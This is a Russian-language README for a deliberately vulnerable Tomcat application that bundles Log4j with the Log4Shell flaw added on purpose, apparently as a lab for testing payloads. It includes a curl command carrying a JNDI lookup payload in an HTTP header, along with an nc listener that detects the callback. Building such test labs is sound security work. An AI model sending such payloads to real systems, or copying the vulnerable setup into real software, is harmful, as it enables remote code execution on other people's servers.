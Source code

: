 ## log4j-poc

Тестовое веб-приложение на основе Tomcat 10.1 (OpenJDK 21),
включающее уязвимую версию библиотеки Log4j 2.x версии 2.25
с внесенной уязвимостью Log4Shell. Уязвимое приложение
позволяет эксплуатацию в HTTP-заголовках, отправляемых в лог
Tomcat (/usr/local/tomcat/logs/catalina.out). Приложение
предназначено для целей тестирования и проверки полезных
нагрузок.

## Сборка и запуск

Для сборки и запуска необходима POSIX-совместимая операционная
система, включающая следующие компоненты:

- git
- docker
- curl

# сборка

```
git clone https://github.com/sercher/log4j-poc.git
cd log4j-poc
docker build -t log4j-poc:latest .
```

# запуск

```
docker run -d -p 8080:8080 --add-host=host:host-gateway log4j-poc
```

Запущенное приложение доступно по адресу

```
localhost:8080/myapp
```

Проверка lookup без добавления полезной нагрузки, например

```
(
  sleep 1 | nc -l 1339 &>/dev/null && echo '[!] VULNERABLE TO LOG4SHELL' &
  pid=$!
  curl -H 'Header-poc: ${jndi:ldap://host:1339/a}' 'http://localhost:8080/myapp/'
  sleep 3
  kill -9 $pid 2>/dev/null
)
```

Альтернативно можно использовать готовый собранный образ

```
docker pull sercher78/sercher:log4j-poc-small
```

Тогда запуск приложения будет осуществляться командой

```
docker run -d -p 8080:8080 --add-host=host:host-gateway sercher78/sercher:log4j-poc-small
```

Отчет об уязвимостях docker hub:
- [sercher78/sercher:log4j-poc-small](https://hub.docker.com/repository/docker/sercher78/sercher/tags/log4j-poc-small/sha256-a421b26712f4ba1989edcd9d7603dab011a6613b485f288d9f563adbf39742d0)

Обнаруженные уязвимости целиком находятся во внутреннем слое (tomcat:10)